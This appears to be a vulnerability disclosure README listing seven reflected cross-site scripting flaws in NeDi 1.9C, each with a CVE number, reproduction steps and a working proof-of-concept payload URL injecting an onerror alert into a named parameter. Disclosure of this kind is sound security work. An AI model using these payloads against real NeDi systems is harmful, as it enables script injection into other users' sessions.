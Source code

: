 # NeDi-1.9C-Multiple-CVEs

## Multiple Cross-Site Script Vulnerabilities found in NeDi 1.9C version.

**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Topology-Map.php" page on "xo" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Topology-Map.php"``` page.
3. Add 'xo' parameter at the end of the URL.
   Example:- ```https://ip/Topology-Map.php?xo=<img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15028**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Assets-Management.php" page on "sn" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Assets-Management.php"``` page.
3. Add 'sn' parameter at the end of the URL.
   Example:- ```https://ip/Assets-Management.php?st=10&sn="><img src=x onerror=alert(document.domain)>&an=&ty=&cl=&lo=&co=&ps=&pc=&pn=&pt=&ew=&es=&el=&ms=0&mp=&sl=&md=&mc=&sm=&em=&com=&lst=&val=&add=Add```

**Reference: CVE-2020-15029**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Topology-Routes.php" page on "rtr" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Topology-Routes.php"``` page.
3. Add 'rtr' parameter at the end of the URL.
   Example:- ```https://ip/Topology-Routes.php?rtr=<img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15030**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Assets-Management.php" page on "chg" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Assets-Management.php"``` page.
3. Add 'chg' parameter at the end of the URL.
   Example:- ```https://ip/Assets-Management.php?chg=<img src=a onerror=alert(document.domain)>```

**Reference: CVE-2020-15031**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Monitoring-Incidents.php" page on "id" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Monitoring-Incidents.php"``` page.
3. Add 'id' parameter at the end of the URL.
   Example:- ```https://ip/Monitoring-Incidents.php?id="><img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15032**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "snmpget.php" page on "ip" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/snmpget.php"``` page.
3. Add 'ip' parameter at the end of the URL.
   Example:- ```https://ip/snmpget.php?ip="><img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15033**


**Description:-**
NeDi 1.9C is vulnerable to a cross-site scripting (XSS) attack.
The application allows an attacker to execute arbitrary JavaScript code via the "Monitoring-Setup.php" page on "tet" parameter.

**Steps To Reproduce:-**
1. Login to the Application.
2. Go to ```"https://ip/Monitoring-Setup.php"``` page.
3. Add 'tet' parameter at the end of the URL.
   Example:- ```https://ip/Monitoring-Setup.php?tet=<img src=x onerror=alert(document.domain)>```

**Reference: CVE-2020-15034**
